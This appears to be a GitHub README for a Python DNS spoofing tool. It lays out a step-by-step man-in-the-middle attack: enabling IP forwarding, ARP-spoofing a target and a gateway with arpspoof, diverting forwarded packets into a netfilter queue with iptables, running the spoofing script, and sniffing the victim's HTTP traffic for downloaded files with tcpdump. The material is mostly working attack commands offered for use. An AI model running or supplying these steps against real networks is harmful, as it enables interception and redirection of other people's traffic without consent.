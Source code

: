 DNS Spoofing is a program to spoof dns entries.
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.

usage - sudo python3 dnsspoof.py eth0

Steps:
      0. Update target website link and spoofing link in script.
      1. Forward all packets to our computer
				1. echo 1 > /proc/sys/net/ipv4/ip_forward
			2. ARP Spoof
				1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
				2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
			3. Forward all dns - block all real packets
         To test in local system or same system
            1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
            2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0
         To test in other system, target system
            1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0           
			4. python3 dnsspoof.py eth0
			5. To check if its working
				1. tcpdump -i eth0 udp port 53
				2. sudo iptables -L -v -n
				3. sudo tcpdump -i any port 80 -A | grep ".jpg"
				4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"
      6. After completing - flush the rules
					1. iptables --flush 
					2. iptables -t nat -F
     
Run the steps following them and we can spoof dns records.

Requirements - install required libraries. For help, refer tools section

